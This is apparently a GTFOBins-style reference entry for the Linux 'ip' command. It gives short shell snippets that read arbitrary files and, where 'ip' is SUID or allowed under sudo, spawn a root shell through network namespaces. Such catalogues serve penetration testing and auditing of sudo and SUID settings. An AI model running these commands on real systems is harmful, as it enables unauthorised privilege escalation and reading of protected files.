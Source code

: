 ```yaml
---
description: |
  The read file content is corrupted by error prints.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        ip -force -batch "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./ip -force -batch "$LFILE"
    - description: This only works for Linux with CONFIG_NET_NS=y.
      code: |
        ./ip netns add foo
        ./ip netns exec foo /bin/sh -p
        ./ip netns delete foo
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ip -force -batch "$LFILE"
    - description: This only works for Linux with CONFIG_NET_NS=y.
      code: |
        sudo ip netns add foo
        sudo ip netns exec foo /bin/sh
        sudo ip netns delete foo
---
```

